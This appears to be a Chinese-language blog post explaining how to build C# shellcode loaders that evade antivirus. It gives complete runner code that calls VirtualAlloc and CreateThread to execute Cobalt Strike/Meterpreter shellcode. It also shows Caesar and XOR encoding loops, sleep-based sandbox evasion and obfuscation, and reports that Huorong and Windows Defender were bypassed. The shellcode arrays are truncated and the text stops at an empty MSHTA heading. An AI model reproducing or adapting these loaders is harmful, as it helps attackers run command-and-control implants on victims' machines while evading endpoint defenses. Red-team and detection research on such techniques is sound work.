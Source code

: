 ```yaml
---
layout: post
title: Shellcode Bypass AV

---
```




# Shellcode Bypass AV

## 0x01.Make a shellcode runner

本文用c#来完成实现shellcode runner，首先要知道如何使用c#调用windows API，C#调用win32 API一般使用P/Invoke的方法在DLL中使用win32api

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210828122140.png)

比如实现一个简单的messagebox功能，要先把c的数据类型转换为c#的数据类型，完整代码如下

```c#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;
namespace ConsoleApp1
{
 class Program
 {
 [DllImport("user32.dll", CharSet = CharSet.Auto)]
 public static extern int MessageBox(IntPtr hWnd, String text, String caption, 
int options);
 static void Main(string[] args)
 {
 MessageBox(IntPtr.Zero, "This is a messagebox", "This is my caption", 0);
 }
 }
}
```

实现shellcode加载器的话，首先需要三个windows API函数VirtualAlloc（主要用来实现调用进程的虚地址空间）

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210828123343.png)

CreateThread（创建线程函数）

WaitForSingleObject （等待线程结束后再执行其他）具体原因后文会说

使用使用P/Invoke的方法在DLL中加入这三个windows API，然后用cobaltstrike生成c#的shellcode

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210830212058.png)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210830213005.png)

shellcode runner完整代码如下

```c#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;
namespace ShellcodeRunner
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint
       flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
       IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32
       dwMilliseconds);
        static void Main(string[] args)
        {
            /* length: 894 bytes */
            byte[] buf = new byte[894] { 0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc8, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0...............};

            int size = buf.Length;
            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(buf, 0, addr, size);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0,

IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);//让程序执行完毕shellcode后再结束
        }
    }
}
```

火绒测试一下，meterpreter的特征

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210830220719.png)

测试下程序运行，没有问题可以直接上线CS

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210830220839.png)

## 0x02.Encoded Shellcode

### Caesar加密

尝试使用Caesar加密方式来绕过Av，整个shellcode右移5

```c#
byte[] encoded = new byte[buf.Length];
            for (int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)(((uint)buf[i] + 5) & 0xFF);
            }
```

输出的生成的shellcode，此时shellcode已经被改变过了，那么再做一步解密的操作

```c#
 for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(((uint)buf[i] - 5) & 0xFF);
            }
```

下面再改成左移5，然后编译shellcodeRunner，火绒再次报毒meterpreter的特征

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210831223458.png)

### XOR加密

凯撒密码的加密方式过于简单，尝试使用XOR加密的方式加密shellcode

```c#
        byte[] encoded = new byte[buf.Length];
        for (int i = 0; i < buf.Length; i++)
        {
            encoded[i] = (byte)((uint)buf[i] ^ 0xfa);
        }
```

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210831225103.png)

完整代码如下

```c#
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Net;
using System.Text;
using System.Threading;

namespace XorShellcodeRunner
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
 uint flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes,
        uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter,
        uint dwCreationFlags, IntPtr lpThreadId);
        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle,
        UInt32 dwMilliseconds);
        static void Main(string[] args)
        {
            //上面是加密过的shellcode
            byte[] buf = new byte[894] {
0x06, 0xb2, 0x79, 0x1e, 0x0a, 0x12, 0x32, 0xfa, 0xfa, 0xfa, 0xbb, 0xab, 0xbb, 0xaa, 
};

            for (int i = 0; i < buf.Length; i++)
           {
            buf[i] = (byte)((uint)buf[i] ^ 0xfa);
            }
            int size = buf.Length;
            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(buf, 0, addr, size);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr,
            IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
    
        }
    }

}
```

Cobaltstrike 上线没有问题

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210831230322.png)

文件上传到VT上测试一下，18/64个给标记了，所以说简单的加密shellcode也是可以起到一定静态免杀的效果

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210831231753.png)

## 0x03.时间判断

如果在程序中加入一个延时效果，是否能够绕过Av的动态检测

首先加入sleep API

```c
[DllImport("kernel32.dll")] static extern void Sleep(uint dwMilliseconds);
```

Sleep 代码片段

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210903113707.png)

加入sleep主要是对动态如沙盒的一个测试，保证沙盒运行的时候，如果没有按照我们的时间运行就退出，停止运行shellcode，不过本身的特征还是存在

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210903102751.png)

生成exe后反编译测试，或者使用调试16进制编辑器查看，还是可以看到明显特征

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210903100940.png)

对sharp代码进行混淆，成功Bypass

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210903103224.png)

使用windows defender静态扫描测试

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210903112347.png)

该defender为测试时的最新版本

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210903112454.png)

## 0x05.MSHTA Bypass AV

